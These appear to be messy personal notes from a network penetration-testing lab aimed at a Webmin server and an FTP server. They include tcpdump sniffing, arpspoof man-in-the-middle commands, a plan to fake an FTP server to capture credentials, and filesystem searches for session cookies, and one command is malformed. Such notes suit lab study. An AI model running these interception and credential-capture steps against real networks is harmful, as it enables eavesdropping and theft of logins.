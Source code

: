 Webmin Webserver on 1ad18a762c86

established tunnel
sudo tcpdump -i eth0 host 192.168.2.2 and host 192.168.2.3
tried to authenticate at webmin

trying to set arp spoofer between webmin and ftp

dexter@35cc20b39538:~$ sudo sys`sudo tail -f /var/log/vsftpd.log`ctl -a | grep ip_forward
sysctl: reading key "kernel.apparmor_display_secid_mode"
sysctl: reading key "kernel.apparmor_restrict_unprivileged_io_uring"
sysctl: reading key "kernel.apparmor_restrict_unprivileged_userns_complain"
sysctl: reading key "kernel.apparmor_restrict_unprivileged_userns_force"
sysctl: reading key "kernel.unprivileged_userns_apparmor_policy"
net.ipv4.ip_forward = 0
net.ipv4.ip_forward_update_priority = 1
net.ipv4.ip_forward_use_pmtu = 0

**Webmin** is a web-based system administration tool for UNIX-like systems (including Linux). It provides a graphical interface to manage various aspects of the system, including user management, disk management, service configuration, networking, and more.

### Authentication and Security in Webmin:

1. **Login**:
    
    - You first need to authenticate using the root or a privileged account.
    - Upon login, the Webmin server creates a session, which is stored on the client-side (cookie) for the user to interact with the interface.

sudo ls /var/webmin/
sudo ls /var/log/webmin/
sudo find /var/webmin/ -type f -name 'miniserv.session' 2>/dev/null
sudo grep -r 'webmin' / 2>/dev/null
sudo grep -r 'session' / 2>/dev/null
sudo grep -r 'cookie' / 2>/dev/null
sudo grep -r 'session' /var/log/webmin/


Check sessions cookies
sudo find / -type f -name '*session*' 2>/dev/null
sudo find / -type f -name '*cookie*' 2>/dev/null

!!!!!!!!!!!!!111

simulating ftp server to catch credentials from 192.168.3.1

35cc20b39538.42750 > ftp_server.dmz.ftp: Flags [S] seq
ftp_server.dmz.ftp > 35cc20b39538.42750: Flags [S.] seq
35cc20b39538.42750 > ftp_server.dmz.ftp: Flags [.], ack
ftp_server.dmz.ftp > 35cc20b39538.42750: Flags [P.], seq 1:29
35cc20b39538.42750 > ftp_server.dmz.ftp: Flags [.], ack 29,
...


sudo tcpdump -i eth0 host 192.168.3.1
sudo arpspoof -i eth0 -t 192.168.2.8 192.168.2.254
sudo arpspoof -i eth0 -t 192.168.2.254 192.168.2.8
